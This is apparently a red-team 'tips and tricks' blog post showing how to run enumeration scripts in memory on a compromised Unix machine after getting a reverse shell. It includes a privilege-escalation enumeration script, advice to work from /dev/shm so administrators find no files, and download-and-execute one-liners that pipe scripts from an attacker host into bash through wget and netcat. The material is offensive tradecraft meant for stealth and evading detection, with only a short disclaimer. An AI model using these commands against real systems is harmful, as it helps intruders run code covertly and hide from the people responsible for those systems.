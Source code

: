 ```yaml
---
description: >-
  How to execute a downloaded script on a remote machine in memory
title: Execute remote scripts from memory                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, script, enumeration, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Execute script in memory

Scenario: You have just gotten a shiny new reverse shell on a Unix-based machine and you want to do some quick enumeration.  You do not want to leave any files on the target system for the system administrators to notice, so you decide to run your enumeration scripts in memory.  How do you do this, you ask?

```bash
#!/bin/sh
# simple-enum.sh
#For conducting simple enumeration of linux machines

echo [+] Distribution and kernel version
cat /etc/issue
uname -a

echo [+] Mounted filesystems
mount -l

echo [+] Network configuration
ip -a
cat /etc/hosts
arp

echo [+] Development tools availability
which gcc
which g++
which python
which python3

echo [+] Installed packages (Debian systems only)
dpkg -l

echo [+] Services
netstat -tulnpe

echo [+] Processes
ps -aux

echo [+] Scheduled jobs
find /etc/cron* -ls 2>/dev/null
find /var/spool/cron* -ls 2>/dev/null

echo [+] Readable files in /etc 
find /etc -user `id -u` -perm -u=r \
 -o -group `id -g` -perm -g=r \
 -o -perm -o=r \
 -ls 2>/dev/null 

echo [+] SUID and GUID writable files
find / -o -group `id -g` -perm -g=w -perm -u=s \
 -o -perm -o=w -perm -u=s \
 -o -perm -o=w -perm -g=s \
 -ls 2>/dev/null 

echo [+] SUID and GUID files
find / -type f -perm -u=s -o -type f -perm -g=s \
 -ls 2>/dev/null

echo [+] Writable files outside HOME
mount -l find / -path “$HOME” -prune -o -path “/proc” -prune -o \( ! -type l \) \( -user `id -u` -perm -u=w  -o -group `id -g` -perm -g=w  -o -perm -o=w \) -ls 2>/dev/null
```

Say you have written the simple enumeration script above that you have saved to your machine, but you want to execute it on the victim's machine. Or, you have downloaded one of the more popular enumeration scripts such as [LinEnum.sh](https://github.com/rebootuser/LinEnum) or [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).  How do you do this without leaving behind obvious evidence that you were there?

## /dev/shm

First of all, I recommend to use the directory `/dev/shm` to work out of to avoid writing files to the disk.  This is a virtual directory that only exists in memory.  Any files left behind here will be wiped when the system shuts down or restarts.

```bash
cd /dev/shm
```

In addition to using the virtual directory `/dev/shm` to write files to, you can also execute scripts in memory directly by using the methods below.

## Using Wget

Using the web-get program `wget` to download a script from an attacker-controlled web server is an excellent way to get remote script execution in memory.  If you do not have a web server to hosts your scripts, you can create one on the fly by using Python3's `http.server` module.

1. First, host the file using a Python HTTP server from your attacking platform of choice (Kali, Parrot, etc) so it is accessible remotely.

```bash
python3 -m http.server $port
```

You can specify a port by replacing the variable `$port` above.  Note: if you wish to use one of the "well-known" ports such as 80 or 443, you must run the command with `sudo`.  If you leave off the `$port`, it will default to port 8000.

2. Next, you can use the command `wget` to fetch your script from your HTTP server.  By piping this command into `bash` you can execute the script directly from memory.

```bash
wget -O - http://$attackerIP:$port/$script | bash
```

| Parameter | Description |
| :--- | :--- |
| `-O -` | This parameter tells `wget` to send the contents it downloads to `stdout`. |
| `$attackerIP` | This is your attacking machine's IP (must be reachable from the victim's machine). |
| `$port` | The port you specified on your HTTP server |
| `$script` | This will be the name of the script to fetch from your machine. |

## Using Netcat

This same scenario can also be accomplished by using the popular network transfer tool netcat (`nc`) in the same way you would create a reverse shell. 

1. From your attack platform, start a netcat listener by piping in the contents of your script using `cat`.

```bash
cat $script | nc -nvlp $port
```

With netcat you must specify a port to listen on.  

2. Next, use netcat on the victim machine to reach back to your attack platform.  When it connects, your computer will send the contents of the script to the victim.  You can execute this in memory by piping this output to `bash`.

```bash
nc $attackerIP $port | bash
```

## Other Examples

If you have any other examples of methods of executing remote scripts directly in memory, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

